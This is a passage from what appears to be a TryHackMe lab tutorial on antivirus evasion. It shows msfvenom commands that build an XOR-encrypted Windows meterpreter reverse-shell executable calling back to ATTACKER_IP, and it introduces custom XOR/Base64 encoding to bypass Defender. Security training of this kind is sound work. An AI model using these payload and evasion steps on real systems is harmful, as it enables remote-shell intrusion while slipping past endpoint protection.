 If we try uploading our newly generated payload to our test machine, the AV will instantly flag it before we even get a chance to execute it:

![Windows Defender detected our payload as malicious!](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/747c69e737c96044123329c47845f659.png)



If encoding doesn't work, we can always try encrypting the payload. Intuitively, we would expect this to have a higher success rating, as decrypting the payload should prove a harder task for the AV. Let's try that now.

Encryption using MSFVenom

You can easily generate encrypted payloads using msfvenom. The choices for encryption algorithms are, however, a bit scarce. To list the available encryption algorithms, you can use the following command:

Listing encryption modules within the Metasploit Framework

```shell-session
user@AttackBox$ msfvenom --list encrypt
Framework Encryption Formats [--encrypt <value>]
================================================

    Name
    ----
    aes256
    base64
    rc4
    xor
```

Let's build an XOR encrypted payload. For this type of algorithm, you will need to specify a key. The command would look as follows:

Xoring Shellcode using the Metasploit Framework

```shell-session
user@AttackBox$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=7788 -f exe --encrypt xor --encrypt-key "MyZekr3tKey***" -o xored-revshell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: xored-revshell.exe
```

Once again, if we upload the resulting shell to the THM Antivirus Check! page at `http://10.10.243.131/`, it will still be flagged by the AV. The reason is still that AV vendors have invested lots of time into ensuring simple msfvenom payloads are detected.

Creating a Custom Payload

The best way to overcome this is to use our own custom encoding schemes so that the AV doesn't know what to do to analyze our payload. Notice you don't have to do anything too complex, as long as it is confusing enough for the AV to analyze. For this task, we will take a simple reverse shell generated by msfvenom and use a combination of XOR and Base64 to bypass Defender.
